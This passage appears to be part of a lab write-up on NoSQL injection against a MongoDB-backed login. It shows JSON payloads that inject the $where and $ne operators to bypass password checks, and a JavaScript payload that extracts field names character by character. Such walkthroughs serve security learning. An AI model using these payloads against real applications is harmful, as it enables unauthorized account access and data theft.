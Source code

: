 ```json
{"username":"wiener","password":"peter", "$where":"1"}
```

If there is a difference between the responses, this may indicate that the JavaScript expression in the `$where` clause is being evaluated.

**Extracting field names:**

If you have injected an operator that enables you to run JavaScript, you may be able to use the `keys()` method to extract the name of data fields. For example, you could submit the following payload:

```javascript
"$where":"Object.keys(this)[0].match('^.{0}a.*')"
```

This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character.

**Armed with above information, we can try to inject the `$where` operator and see what will happen:**
```json
{
    "username": "carlos",
    "password":{
        "$ne": "foobar"
    },
    "$where": "0"
}
```

```json
{
    "username": "carlos",
    "password":{
        "$ne": "foobar"
    },
    "$where": "1"
}
```

When we use `"$where": "0"`, it'll be evaluated as `False`, and  `"$where": "1"` will be evaluated as `True`.
